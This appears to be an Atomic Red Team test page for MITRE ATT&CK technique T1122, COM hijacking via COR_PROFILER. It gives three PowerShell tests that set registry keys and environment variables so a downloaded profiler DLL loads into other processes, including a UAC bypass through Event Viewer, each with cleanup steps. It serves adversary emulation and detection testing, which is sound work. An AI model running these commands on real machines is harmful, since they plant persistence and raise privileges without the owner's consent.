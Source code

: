 # T1122 - Component Object Model Hijacking
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1122)
<blockquote>The Component Object Model (COM) is a system within Windows to enable interaction between software components through the operating system. (Citation: Microsoft Component Object Model) Adversaries can use this system to insert malicious code that can be executed in place of legitimate software through hijacking the COM references and relationships as a means for persistence. Hijacking a COM object requires a change in the Windows Registry to replace a reference to a legitimate system component which may cause that component to not work when executed. When that system component is executed through normal system operation the adversary's code will be executed instead. (Citation: GDATA COM Hijacking) An adversary is likely to hijack objects that are used frequently enough to maintain a consistent level of persistence, but are unlikely to break noticeable functionality within the system as to avoid system instability that could lead to detection.</blockquote>

## Atomic Tests

- [Atomic Test #1 - COM Hijack Leveraging user scope COR_PROFILER](#atomic-test-1---com-hijack-leveraging-user-scope-cor_profiler)

- [Atomic Test #2 - COM Hijack Leveraging System Scope COR_PROFILER](#atomic-test-2---com-hijack-leveraging-system-scope-cor_profiler)

- [Atomic Test #3 - COM Hijack Leveraging registry-free process scope COR_PROFILER](#atomic-test-3---com-hijack-leveraging-registry-free-process-scope-cor_profiler)


<br/>

## Atomic Test #1 - COM Hijack Leveraging user scope COR_PROFILER
Creates user scope environment variables and CLSID COM object to enable a .NET profiler (COR_PROFILER). The unmanaged profiler DLL (`atomicNotepad.dll`) executes when the CLR is loaded by the Event Viewer process. Additionally, the profiling DLL will inherit the integrity level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity. If the account used is not a local administrator the profiler DLL will still execute each time the CLR is loaded by a process, however, the notepad process will not execute with high integrity. 

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | Path | PathToAtomicsFolder&#92;T1122&#92;bin&#92;T1122x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
Write-Host "Creating registry keys in HKCU:Software\Classes\CLSID\#{clsid_guid}" -ForegroundColor Cyan
New-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}\InprocServer32" -Value #{file_name} -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -PropertyType String -Value #{file_name} -Force | Out-Null
Write-Host "executing eventvwr.msc" -ForegroundColor Cyan
START MMC.EXE EVENTVWR.MSC
```

#### Cleanup Commands:
```powershell
Write-Host "Removing registry keys" -ForegroundColor Cyan
Remove-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}" -Recurse -Force
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -Force | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -Force | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -Force | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1122/bin/T1122x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #2 - COM Hijack Leveraging System Scope COR_PROFILER
Creates system scope environment variables to enable a .NET profiler (COR_PROFILER). System scope environment variables require a restart to take effect. The unmanaged profiler DLL (`atomicNotepad.dll`) executes when the CLR is loaded by any process. Additionally, the profiling DLL will inherit the integrity level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity. If the account used is not a local administrator the profiler DLL will still execute each time the CLR is loaded by a process, however, the notepad process will not execute with high integrity. 

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | Path | PathToAtomicsFolder&#92;T1122&#92;bin&#92;T1122x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host "Creating system environment variables" -ForegroundColor Cyan
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -PropertyType String -Value #{file_name} -Force | Out-Null
```

#### Cleanup Commands:
```powershell
Write-Host "Removing system environment variables" -ForegroundColor Cyan
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -Force | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -Force | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -Force | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1122/bin/T1122x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #3 - COM Hijack Leveraging registry-free process scope COR_PROFILER
Creates process scope environment variables to enable a .NET profiler (COR_PROFILER) without making changes to the registry. The unmanaged profiler DLL (`atomicNotepad.dll`) executes when the CLR is loaded by PowerShell.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_name | unamanged profiler DLL | Path | PathToAtomicsFolder&#92;T1122&#92;bin&#92;T1122x64.dll|
| clsid_guid | custom clsid guid | String | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
$env:COR_ENABLE_PROFILING = 1
$env:COR_PROFILER = '#{clsid_guid}'
$env:COR_PROFILER_PATH = '#{file_name}'
POWERSHELL -c 'Start-Sleep 1'
```

#### Cleanup Commands:
```powershell
$env:COR_ENABLE_PROFILING = 0
$env:COR_PROFILER = ''
$env:COR_PROFILER_PATH = ''
```



#### Dependencies:  Run with `powershell`!
##### Description: #{file_name} must be present
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1122/bin/T1122x64.dll" -OutFile "#{file_name}"
```




<br/>
